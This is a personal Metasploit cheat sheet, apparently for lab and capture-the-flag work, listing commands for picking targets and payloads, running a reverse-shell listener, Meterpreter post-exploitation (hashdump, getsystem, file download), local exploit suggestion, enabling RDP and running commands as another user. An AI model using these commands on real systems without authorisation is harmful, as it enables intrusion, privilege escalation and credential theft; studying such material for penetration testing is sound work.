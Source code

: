 # Metasploit

This page is just basic stuff I forget all the time. There are other Metasploit tips in sections where it's relevant.

## Advanced options

Metasploit is so derp-easy that you can often exploit a machine by setting the remote IP in `RHOST` and hitting the pew-pew button.

But sometimes that doesn't work and you cry because you know you're just a lame script kiddie pretending to be a hacker. However, you can aspire to be a _decent_ script kiddie by knowing how to use more advanced options in Metasploit.

Exploits might not work because of an unusual configuration or path issue, which you can set with either `show options` or `show advanced`. The `advanced` section may let you set`verbose = true` to provide more information about why an exploit isn't working.

You might also need to set the correct target:

```text
show targets
set target [target number]
```

[MSO8-067](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi) sometimes needs this because the module can't always identify the exact operating system version and language pack.

It's also important to pay attention to the default payload. Occasionally, you'll run into something weird like an Apache web server running on Windows, so the default Unix payload won't work.

Check and modify the payload:

```text
show payloads
set payload [whatever]
```

## Meterpreter

To catch shells using meterpreter:

```text
use exploit/multi/handler
set LHOST [attack machine]
set LPORT 443
run
```

If you're VPNed into a lab, pay attention to the IP address. I've noticed that the first time this module runs, it defaults to `eth0` and you have to restart it to use something like `tap0`.

### Basic commands

Frequently used commands, mostly to enumerate a victim machine:

```text
getuid      # get current user
sysinfo     # gets OS and hostname
execute     # execute a command
cd          # change directory
pwd         # print working directory
ls          # list files in current directory
mkdir       # make a directory
del         # delete a file
cat         # read the contents of a file
download    # download a file to your machine
hashdump    # get contents of password file
edit        # edit a file with vim
rm          # delete a file
rmdir       # remove directory
upload      # upload a file to the victim
ps          # list running processes
migrate     # move the active process to a designated PID
getpid      # get the current process ID (PID)
kill        # terminate a process by PID
ipconfig    # display network interfaces
portfwd     # forward a port on the victim to a remote service
route       # view or modify routing table
getprivs    # get as many privileges as possible
getsystem   # get Administrator
reboot      # reboot the victim
shutdown    # shut down the victim
reg         # interact with the victim's registry
```

### Sessions

Meterpreter is nice because it lets you maintain multiple shell sessions and use local exploits against them. For example, the [Rejetto exploit](https://www.exploit-db.com/exploits/39161/) always seems to fire a few times and with meterpreter, you can catch every shell session with a single listener.

To list active sessions:

```text
sessions -l
```

To enter a session:

```text
sessions -i [session number]
```

To enter a shell from a session \(not use meterpreter commands\):

```text
shell
```

To exit the shell and return to meterpreter, type `exit`.

### Local exploits

Once you have a meterpreter shell, you can scan for local exploits and run them. Unlike remote exploits which target using IP addresses, local exploits run against a chosen shell session.

To access local exploits, you'll need to jump out of meterpreter using `background` and select one with the `use` command:

```text
meterpreter > background
use /exploit/windows/whatever
show options
[edit options as needed]
set SESSION [session number]
run
```

#### Useful Windows tools

Check for exploits:

```text
meterpreter > run /post/multi/recon/local_exploit_suggester
```

Get a remote desktop:

```text
meterpreter > run post/windows/manage/enable_rdp
```

Run a command as a different user:

```text
background
use post/windows/manage/run_as
[set username and password]
set CMDOUT true # output results of command
set CMD "type C:\Users\Administrator\Desktop\root.txt"
run
```

There are [manual ways to run commands as different user](https://stackoverflow.com/questions/12903629/how-do-i-run-a-program-from-command-prompt-as-a-different-user-and-as-an-admin) but I haven't tried them because I'm lazy.

